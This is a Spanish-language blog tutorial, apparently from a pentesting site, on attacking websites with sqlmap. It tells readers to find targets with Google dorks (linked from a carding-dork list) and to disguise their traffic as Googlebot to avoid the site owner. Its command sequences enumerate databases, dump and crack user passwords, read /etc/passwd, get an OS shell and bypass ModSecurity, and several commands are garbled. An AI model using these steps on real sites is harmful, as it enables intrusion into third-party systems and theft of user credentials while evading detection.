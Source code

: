 ```yaml
---
title: Uso avanzado de sqlmap - sql injection
date: 2018-12-29
categories: [Pentesting, Herramientas]
excerpt: SQL INJECTION
tags: [Injection, sql]
---
```



## ¿Que es SQLMAP?
---

Es una herramienta desarrollada en el lenguaje de programación Python y sirve para hacer SQL injection automatizado en otras palabras aprovecha las vulnerabilidades de inyección SQL en aplicaciones web en la cual se puede llegar hacer distintas cosas, por ejemplo:  
  
- Enumerar bases de datos  
- Enumerar las tablas y columnas de una base de datos. 
  
- Enumerar los usuarios con su respectiva contraseña.  
  
- Descifrar los hashes de contraseñas .  
  
- Leer archivos específicos del sistema de archivo de un host especifico y mucha mas cosas.  
  
 ![sqlmap](/assets/img/post/04/sqlmap.png) 

### Uso practico
-----
Para empezar tenemos que elegír una Dork aquí les dejare unas 2k+ de Dorks de Google [Dorks](https://itechhacks.com/latest-fresh-carding-dorks-2016/)  
  
```bash  
sqlmap -u [URL] -D privacidaddb --tables --user-agent="Mozilla 5 (compatible , Googlebot/2.1, [http://www.google.com/bot.html)"](https://www.google.com/bot.html)
```

Comenzamos con este código antes de comenzar con lo más emocionante por decirlo así, pero la pregunta es: ¿Para qué sirve esto? Este comando sirve para camuflar nuestra conexión como un robot de google ya que siempre esta vigente a las conecciones vigentes de inicio ¿Que pasa si no hacemos esto? Simplemente dejarias a descubierto la conexion que estamos conectados de una manera textual y el web master se dara cuenta que estamos inyectando su web y hasta puede saber que programa estamos usando, etc.  

### Obtener datos del usuario de la web
-----
  
```bash
sqlmap -u [URL] --current-user
```

Ahora comprobemos si es correcto el usuario que tenemos de la base de datos  
  
```bash
sqlmap -u [URL] --is-dba --current-db 
```

Para ver los privilegios de administradores activados  

```bash
sqlmap -u [URL] --privileges**  
```

Para obtener todos los usuarios de DBS  
  

```bash
sqlmap -u [URL] --users
```
  
Podremos ver en donde corre y que usuario está alojado puede ser root u otro  
  
Para obtener las contraseñas de los usuarios de las dbs  
  
  
```bash
sqlmap -u sqlmap -u [URL] --password
```  
  
  
Nos saldrá un mensaje con unas opciones y tendremos que elegir según las letras ["Y" , "N", "Q"] ¿Por que sale esto? porque las contraseñas de los registros de las bases de datos se codifican automáticamente en Hash y en MD5 son las más conocidas, en fin...  
  
- Y = Es para hacer un ataque de fuerza bruta para descifrar el hash  
  
- N = Es para negar la anterior opción y obtener solo la hash  
  
- Q = Para terminar el proceso hasta ese momento**  
Ponemos Q y luego nos saldrán 3 opciones y escogemos el diccionario 1 /defauld  
  
Después nos dará la siguiente información que es la contraseña crackeada y el usuario. También podemos hacer una búsqueda más avanzada pero tenemos que tener en cuenta de como usar los nombres en las búsquedas  

```bash
sqlmap -u [URL] -C login --search**  
```  

Nos saldrán dos opciones y elegiremos la primera que es para tener una lista opcional de la búsqueda nos permitirá hacer un dump de las columnas encontradas en la DBS ponemos la opción "a" ¿Por que? esto hará un dump general  


### Obtener información de la web:
---
  
```bash
sqlmap -u [URL] --dbs -u = Target UR (e.g. “http://www.example.com/cgi-bin/item.cgi?item_id=15" --dbs 
``` 
  
Sigamos revisando la base de datos  
  
```bash
sqlmap -u [URL] -D [Ponemos aquí lo que hayas seleccionado de la tabla] --tables  
```  
  
Después nos saldrá otra tabla usaremos otro comando, pero explicare que las letras en mayúscula, por ejemplo, -D son abreviadas, porque -D es el nombre de la base de datos, o sea **--dbs** recuerda que siempre deben ir en mayúscula **-T** es **--tables**  
  
  
  
```bash
sqlmap -u [URL] -D [Ponemos aquí lo que hayas seleccionado de la tabla] -T [Ponemos aquí lo que hayas seleccionado de la tabla siguiente] --columns
```
  
  
Ahora que tenemos las columnas visibles vamos a extraer datos de una tabla  
  
  
```bash
sqlmap -u [URL] --dump -D [Ponemos aquí lo que hayas seleccionado de la tabla] -T [Ponemos aquí lo que hayas seleccionado de la tabla siguiente]  
```  
  
Nos puede salir algo similar a esto:  
  
  
  
| id | hash | nombre | correo electrónico | contraseña | permiso | inicio_sistema | system_allow_only |  
| ------- | ------- | ------- | ------- | ------- | ------- | ------- | ------- |  
| 1 | 5DIpzzDHFOwnCvPonu | admin | En blanco | <en blanco> | 3 | En blanco | En blanco | 

  
Usemos otro comando hasta ahora hemos tenido mucha información de la tabla. La columna hash parece tener el hash de contraseña puede descifrarlo y obtener los datos para iniciar sesión lo que hará slqmap es crear un archivo csv que tendrá los datos volcados para facilitar el análisis  
    
En el siguiente comando se usará para tener el banner exacto del servidor de la base de datos cuando nos salga el banner de mysql nos mostrará la versión mysql que se ha estado usando cuando tengas la versión buscamos en google una vulnerabilidad de MySQL a esa versión que tenemos  
  
  
```bash
sqlmap -u [URL] -b
```  
Para leer un archivo de sistema tenemos que tener permisos para la operación de ARCHiVO los unico que podemos leer son los archivos legibles o legibles por el usuario de mysql, por ejemplo:  
  
  
```bash
sqlmap -u [URL] --file-read = / etc / passwd --threads = 10
```
  
  
Solo es ejemplo, pero ¿Qué estamos haciendo? Sqlmap alamencera el archivo en nuestro directorio para que podamos leerlo después  
  
  
```bash
sqlmap -u [URL] --sql-query = "seleccionar ahora ();"
```
  
Lo que hicimos fue ejecutar el comando sql arbitrario el cual sirve para ejecutar consultas sql arbitrarias en la base de datos  

  
### Comandos curiosos 
----
	
```bash
sqlmap -u [URL] --fingerprint -random-agent
```  
	
-u: URL  
  
--fingerprint: Captura el flag arg para analizar  
  
--random-agent: Pide el navegador por defecto**  
  
Definir el parámetro a explotar  
  
  
```bash
sqlmap --dbms=mysql -u [URL] --dbs -p param2
```
  
  
  
Si la url tiene URI´s bonitas  
  
  
```bash  
sqlmap --dbms=mysql -u "http://XXXXXXXXXXX/detail/code/value1*/param2/value2" --dbs
```
  
  
Ejecutar consultas directametne  
  
```bash  
sqlmap --dbms=mysql -u [URL] -D "BASEDEDATOS" --sql-query "SELECT * FROM TABLAS;"
 ```
  
  
Conseguir Shell del sistema si es que es viable  
  
  
```bash
sqlmap --dbms=mysql -u [URL] --os-shell**  
```
	
### Evadiendo el Mod_Security con Tampers de sqlmap
-----

Alguna vez cuando hacemos inyección por GET en alguna web a veces nos aparece un anuncio de Mod_Security al cual no deja inyectar, pero usando sqlmap y con sus Tampers podremos sacarnos de este apuro. Puedes encontrar información de cada Tamper cada archivo tiene su explicación de su funcionalidad solo tiene que ir a sqlmap/tamper/  
  
### ¿Cómo usamos Tamper en SQLMAP? 
----	
	
Es fácil solo se debe utilizar el siguiente comando o agregar la opción  
  
  
```bash
--tamper [Nombre del Tamper]**  
```
	
En otras palabras:
![tampers]('/assets/img/post/04/tampers.png)
	
```bash
sqlmap.py -u [URL] --dbms "MySQL" -p [marca_id] --tamper "modsecurityzeroversioned.py" --batch
```
Ahora que sabemos esto de evadir los filtros y los WAF, gracias a la herramienta qué carga las reglas del script de sabotaje para lo mencionado, pero sabías que podemos usar todos en una línea? Ejemplo:  

### Bajar la clase de seguridad y mas

  
Podemos hacer otro ataque en donde haremos un escaneo de la URL vereficando las cookies y a lo último hace un string para poder ver la base de datos y no solo también podremos bajar la clase de seguridad de la página, pero espera antes necesitamos dos cosas URL y cookie podemos obtener esta información con BurpSuite y después usar sqlmap digamos que ya tenemos eso, pero y ahora que? Simplemente ya podemos usar el siguiente comando:  
  
```bash
sqlmap -u '[URL]' --cookie='[cookie]' --string=Surname --dbs
```